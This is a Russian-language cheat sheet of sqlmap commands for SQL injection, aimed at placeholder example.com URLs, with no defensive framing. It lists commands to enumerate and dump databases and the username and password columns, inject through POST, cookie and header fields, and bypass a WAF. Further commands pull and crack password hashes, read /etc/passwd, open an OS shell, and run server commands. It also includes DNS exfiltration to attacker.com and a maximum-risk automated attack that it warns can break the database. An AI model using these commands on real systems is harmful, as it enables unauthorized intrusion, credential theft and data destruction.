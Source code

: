 Определение базы данных:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --dbs

Определение таблиц в базе:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db --tables

Определение колонок в таблице:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table --columns

Извлечение данных из таблицы:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table -C username,password --dump

_______________________________________________________________________________________________________________________________________

GET-параметры
> ```bash
> sqlmap -u "http://example.com/index.php?id=1"

POST-параметры
> ```bash
> sqlmap -u "http://example.com/login.php" --data="username=admin&password=123"

Cookie-параметры
> ```bash
> sqlmap -u "http://example.com/profile.php" --cookie="PHPSESSID=abcd1234"

HTTP-заголовки (User-Agent, Referer, X-Forwarded-For и т. д.)
> ```bash
> sqlmap -u "http://example.com/" --headers="User-Agent: evil_payload"

_______________________________________________________________________________________________________________________________________

Определение типа инъекции
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --technique=U
```Где U – Union-based, можно заменить на B (Boolean-based), T (Time-based) и т. д.```

Обход WAF (Web Application Firewall)
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --tamper=space2comment
```Можно использовать другие tamper-скрипты, например charencode, randomcase и т. д.```

Определение уровня привилегий
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --privileges

Получение учетных данных пользователей базы
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --users



Получение хешей паролей
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --passwords

Попытка дешифровки хешей
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --crack
_______________________________________________________________________________________________________________________________________

Автоматическое определение всех уязвимых параметров
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --forms --crawl=3
```Ищет SQL-инъекции во всех найденных формах на сайте```

Поиск файлов на сервере
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --file-read="/etc/passwd"

Загрузка шелла на сервер
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --os-shell

Запуск команд на сервере
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --os-cmd="whoami"

Обход защиты через Time-based SQL Injection
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --technique=T --time-sec=5

Атака через DNS (Blind SQL Injection)
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --dns-domain=attacker.com

Запуск мощной автоматической атаки
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --level=5 --risk=3 --batch
```
--level=5 – увеличивает глубину проверки
--risk=3 – максимальный уровень риска (может сломать базу)
--batch – отключает вопросы (запускает атаку автоматически)
